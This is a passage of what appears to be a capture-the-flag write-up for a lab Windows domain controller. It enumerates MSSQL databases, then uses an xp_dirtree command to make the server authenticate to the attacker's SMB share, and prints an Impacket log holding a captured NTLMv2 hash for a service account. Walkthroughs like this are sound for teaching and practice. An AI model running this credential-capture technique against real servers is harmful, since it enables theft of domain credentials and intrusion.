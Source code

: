 Let's take look at the database's structure. Since it's just a "mock" instance we do not expect any useful data here, but it's still worth to check.

```
SQL> SELECT name FROM master.sys.databases;
name

--------------------------------------------------------------------------------------------------------------------------------

master

tempdb

model

msdb

SQL>
```

There were just 4 databases and none of them contained any useful information. Most of it was just blank. We can try to use those credentials against `SMB` or `WINRM`, but everything fails. 

## Capturing NTLMv2 hash

What we can do now is to try to steal a `NTLMv2` hash. Since we can execute SQL commands on the DC, we could try to fetch a remote resource and force the database to use `NTLMv2` authentication so we can capture the hash.

We can user following command to try to fetch the remote content.

```
exec master.dbo.xp_dirtree '\\10.10.14.88\smb'
```

We can see that it indeed worked and we successfuly captured the `NTLMv2` hash:

```
➜  Escape python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support smb .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,52565)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:4ec19fdc5c4ba3ab5ea3774187b5f385:0101000000000000807a669c709dd901cc7f5af4f95c760f0000000001001000500058006e005200690043004100740003001000500058006e0052006900430041007400020010006d0074006100740058004b0069005800040010006d0074006100740058004b006900580007000800807a669c709dd90106000400020000000800300030000000000000000000000000300000115adc3d0fc18217cf60cf08c80ea3442c0cc5e81825de469ed7f9eb469f94200a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00380038000000000000000000
[*] Closing down connection (10.10.11.202,52565)
[*] Remaining connections []
```
